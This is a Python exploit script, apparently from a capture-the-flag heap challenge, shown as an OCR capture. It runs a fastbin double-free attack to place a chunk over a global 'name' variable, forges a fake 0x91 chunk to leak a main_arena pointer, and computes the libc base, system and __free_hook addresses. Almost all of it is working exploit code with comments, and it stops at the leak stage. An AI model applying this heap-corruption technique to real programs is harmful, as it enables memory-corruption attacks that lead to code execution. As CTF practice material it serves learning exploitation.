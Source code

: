 ```python

'''
For step 1, we want a libc leak. PIE is disabled, and the only leak we have is when we
"reintroduce" ourselves, and the program tells us what our name is.

Knowing this, the easiest way to get a libc leak is to first get a fake chunk on top of
the name variable by doing a fastbin attack. Then, we simply change the name to make it
appear to be a chunk of size 0x91, then free it. This causes the addr of main_arena+0x58
to be placed in the fd and bk fields of our fake chunk. The fd and bk fields are
essentially name[2] and name[3] respectively, if each index is considered 8 bytes long
'''

# Initialize our name to look like a fake chunk header with size 0x61
initialize(p64(0) + p64(0x61) + p64(0))

# Address of name global variable (PIE is disabled)
fake_chunk = 0x602040

# Quick double free fast bin attack to get a chunk on top of name
# Allocate three chunks for setup (third chunk might not be needed)
add(0x58, 'A'*0x58) # 0
add(0x58, 'B'*0x58) # 1
add(0x58, 'C'*0x58) # 2

# Double free chunk 0
free(0)
free(1)
free(0)

# Get chunk 0 back, and overwrite it's FD with fake chunk
add(0x58, p64(fake_chunk) + 'A'*0x50) # 3

# Three more frees, chunk 6 will be at name
add(0x58, 'B'*0x58) # 4
add(0x58, 'A'*0x58) # 5
add(0x58, 'C'*0x58) # 6

# Next, we change name so that it looks like a fake chunk with size 0x91
# We also construct a bunch of fake chunks.
# Only two fake chunks are required, I just made a bunch of them cuz I was lazy
# The two fake chunks allow us to free this 0x91 sized chunk and bypass security checks
reintroduce(p64(0) + p64(0x91) + p64(0x21)*23)

# Free fake chunk, places the address of main_arena+0x58 into its fd and bk fields
free(6)

# We overwrite the chunk header with 'AAAAAAA\n'
# This causes reintroduce to say our name, and print out 'AAAAAAA\n<main_arena_addr>'
# We just format it correctly to get the leak
leak = u64(reintroduce('A'*(0x8+0x7) + '\n').split('\n')[1][:-1].ljust(8, '\x00'))

# Calculate all offsets needed
main_arena = leak - 0x58
libc.address = leak - 0x3c4b78
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Leak: ' + hex(leak))
log.info('main arena: ' + hex(main_arena))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))

```